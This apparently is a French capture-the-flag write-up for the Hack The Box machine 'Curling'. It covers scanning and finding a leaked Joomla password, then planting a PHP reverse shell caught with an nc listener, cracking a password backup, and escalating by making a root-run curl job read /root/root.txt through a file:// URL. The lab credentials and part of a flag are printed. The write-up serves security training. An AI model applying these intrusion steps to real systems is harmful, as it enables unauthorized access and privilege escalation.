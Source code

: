 # Curling writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/13/6/1553953753-capture-du-2019-03-30-14-49-00.png)]

Informations
----
    Ip : 10.10.10.150        Created by : L4mpje
    Level : Very easy           Base Points : 20

Nmap Scan
----

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-03-30 14:55 CET
    Nmap scan report for 10.10.10.150
    Host is up (0.045s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
    |_  256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
    80/tcp open  http?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 193.48 seconds
    
Alors concrètement il y'a 2 ports ouvert le SSH pour le 22 et le HTTP pour le 80. Nous allons un peu énumérer sur le serveur web.

HTTP
----

Quand nous envoyions une rêquete HTTP avec curl, on peut constater que il y'a un fichier spécial nommé secret.txt. Nous allons essayer de lire ce fichier texte.

    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150
    [...SNIP...]
    </body>
      <!-- secret.txt -->
    </html>
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt
    Q3VybGluZzIwMTgh
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt -s|base64 -d
    Curling2018!
    
Ceci ressemble à un mot de passe, probablement pour le CMS. Il y'a aussi un nom d'utilisateur dans un article ça pourrais nous servir.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/561556044367527979/unknown.png)]

J'ai pas encore lancé de gobuster je vais lancé ça automatiquement.

Gobuster
----
    root@seyptoo-Aspire-E5-721:~/htb/writeup/Curling# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.150 -o output-gobuster.log

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.150/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output-gobuster.log
    [+] Status codes : 200,204,301,302,307
    =====================================================
    /images (Status: 301)
    /media (Status: 301)
    /templates (Status: 301)
    /modules (Status: 301)
    /bin (Status: 301)
    /plugins (Status: 301)
    /includes (Status: 301)
    /language (Status: 301)
    /components (Status: 301)
    /cache (Status: 301)
    /libraries (Status: 301)
    /tmp (Status: 301)
    /layouts (Status: 301)
    /administrator (Status: 301)

 Nous avons beaucoup de dossiers, on va s'intéréssé à la page d'administration, le CMS utilisé est Joomla. J'ai essayer avec plusieurs utilisateur notamment avec admin, administrator etc.. et finalement l'utilisateur est floris et le mot de passe est Curling2018!. La connexion fonctionne avec succès.
 
 Username : floris<br />
 Password : Curling2018
 
 Joomla
 ----
 
Une fois connecté sur le CMS, allez sur l'onglet Templates et ensuite il y'aurais deux autres onglets nommé Styles et Templates, cliquez sur Templates après avoir cliqué vous devez cliqué sur 'Beez3 Details and Files' de crée un nouveau fichier php, pour le code php je vous conseille pentestmonkey une fois le code mis et bien sauvegardé. Vous pouvez exécuter votre code dans /templates/beez3/your.php


Shell > User.txt
----
    root@Computer:~/htb/writeup/Curling# nc -lvnp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.150] port 1234 [tcp/*] accepted (family 2, sport 58834)
    [...SNIP...]
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@curling:/$ ls
    bin   home            lib64       opt   sbin      sys  vmlinuz
    boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
    dev   initrd.img.old  media       root  srv       usr
    etc   lib             mnt         run   swap.img  var
    www-data@curling:/$ cd /home/floris
    www-data@curling:/home/floris$ ls
    admin-area  password_backup  user.txt
    
Comme vous pouvez le voir il y'a un fichier password_backup, le fichier user.txt est impossible à lire car nous avons pas les permissions de lire ce fichier. Donc je vais transférer le fichier password_backup vers ma machine physique.

[![forthebadge made-with-python](https://im.ezgif.com/tmp/ezgif-1-6c0da889e0b9.gif)]

Donc une fois que le fichier a été transférer nous pouvons jouer avec le fichier backup. Alors concrètement si nous regardons le fichier c'est un fichier en hex, nous allons utillisé la commande xxd pour convertir ça en binaire.

    root@Computer:~/htb/writeup/Curling# xxd -r password_backup > file.bin
    root@Computer:~/htb/writeup/Curling# file file.bin 
    file.bin: bzip2 compressed data, block size = 900k
    
Maintenant si nous regardons le type du fichier c'est un fichier compressé en bzip2, nous allons décompressé ça avec la commande bzip2. Ensuite il faut changer l'extension du fichier.

    root@Computer:~/htb/writeup/Curling# bzip2 -d file

Le fichier a été décompressé avec succès sans aucun problème ensuite nous allons revoir le type du fichier maintenant.

    root@Computer:~/htb/writeup/Curling# mv file.out file.out.tar
    root@Computer:~/htb/writeup/Curling# tar -xvf file.out.tar
    extracting : password.txt
    root@Computer:~/htb/writeup/Curling# cat password.txt
    5d<wdCbdZu)|hChXll
    
Nous avons réussis à chopper le mot de passe de l'utilisateur floris donc on va essayer de se connecter en SSH et de check.

    root@Computer:~/htb/writeup/Curling# ssh floris@10.10.10.150
    floris@10.10.10.150's password: 
    [...SNIP...]
    floris@curling:~$ wc -c user.txt
    33 user.txt
 
PrivEsc
----
Pour le privesc il y'a rien de bien compliqué il suffit de regarder le dossier admin-area dans /home/floris. Dans le fichier input vous devez simplement modifier la variable par file:///root/root.txt pour lire le fichier root.txt. Et lisez rapidement le fichier report avant que quelqu'un d'autre modifie le fichier input.

    file input  :
        url = "file://root/root.txt"
    file output :
        82c198ab6f[...SNIP...]
 
  

